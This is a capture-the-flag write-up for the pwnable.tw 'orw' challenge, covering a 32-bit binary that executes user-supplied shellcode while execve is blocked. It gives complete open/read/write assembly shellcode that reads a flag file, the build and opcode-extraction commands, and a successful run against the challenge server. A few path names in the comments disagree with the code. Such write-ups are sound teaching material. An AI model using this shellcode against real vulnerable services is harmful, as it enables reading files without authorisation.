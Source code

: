 # orw (pwn, pwnabletw, shellcode, prctl)

Notes:
- binary given
- ASLR enabled

## Enumeration
We are given a 32 bit binary:

```bash
$ file orw 
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

with almost no protections enabled:

```bash
$ checksec orw
[*] './orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

After quick reverse engineering we can reconstruct program logic.
Program pseudocode:

```c
shellcode[200];

int main() {
    prctl(PR_SET_NO_NEW_PRIVS);

    puts("Give my your shellcode:");
    read(stdin, shellcode, sizeof(shellcode));

    ((void(*)())shellcode)();
}
```

So, wait! The program realy invokes the shellcode we give him. Unfortunetely, the standard 
`asm(shellcraft.sh())` from pwntools won't work as prctl called with PR_SET_NO_NEW_PRIVS option
prevents the proccess of calling execve.

From [prctl man page](http://man7.org/linux/man-pages/man2/prctl.2.html):

```
prctl - operations on a process
[...]
PR_SET_NO_NEW_PRIVS (since Linux 3.5)
        Set the calling thread's no_new_privs attribute to the value
        in arg2.  With no_new_privs set to 1, execve(2) promises not
        to grant privileges to do anything that could not have been
        done without the execve(2) call (for example, rendering the
        set-user-ID and set-group-ID mode bits, and file capabilities
        non-functional).  Once set, this the no_new_privs attribute
        cannot be unset.  The setting of this attribute is inherited
        by children created by fork(2) and clone(2), and preserved
        across execve(2).
```

## Exploit
As stated in task description we need to find a way around. We want program which will:

```c
int fd = open('/home/orw/flag', O_RDONLY);
read(fd, &stack, 40); // we don't have to declare any buffer. Just store content of flag on stack.
write(stdout, &stack, 40);
```

This will be super easy to write it in assembly code:

```asm
section .text
global _start

_start:
    jmp to_the_end

open_flag_file:
    pop ebx         ; filename=address of "flag.txt"
    mov ecx, 0x0    ; flags=O_RDONLY
    mov edx, 0x0    ; no mode
    mov eax, 0x5    ; sys_open()
    int 0x80        ; exec open()

read_flag_content:
    mov ebx, eax    ; fd from above open is in eax
    mov ecx, esp    ; just read content on stack
    mov edx, 0x30   ; just read whole flag
    mov eax, 0x3    ; sys_read()
    int 0x80        ; exec read()

write_flag_content:
    mov ebx, 0x1    ; write flag to stdout
                    ; don't change ecx as it points already on flag content
    mov eax, 0x4    ; sys_write()
    int 0x80        ; exec write()

exit:
    mov ebx, 0x0    ; exit with no error code
    mov eax, 0x01   ; sys_exit()
    int 0x80        ; exec exit()


to_the_end:
    call open_flag_file
    db '/home/orw/flag', 0, 'A'
```

<b>Note:</b> </br>
We used a standard trick with `db '/home/orw/flag', 0, 'A'`. 
It just generates a "/home/rd/flag" bytestring at the end of our shellcode.
'0' is needed as a string terminator. 'A' is needed as objdump would cut this NULL byte  if left at the end.

Now we can test our shellcode localy (either create /home/ord/flag file or just change shellcode flag file path)

```bash
$ echo "flag{test_flag}" > /home/ord/flag
$ nasm -f elf shellcode.asm -o shellcode.o
$ ld -m elf_i386 shellcode.o -o shellcode
$ ./shellcode
flag{test_flag}
```

And to extract opcodes:

```bash
$ for i in `objdump -d shellcode.o |grep "^ " |cut -f2`; do echo -n '\x'$i; done; echo
```

And that's all! We just have to send our shellcode now.

```bash
$ python3 exp.py 
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{sh3llc0ding_w1th_op3n_r34d_writ3}
\x00\xe4\x[*] Got EOF while reading in interactive
$  
```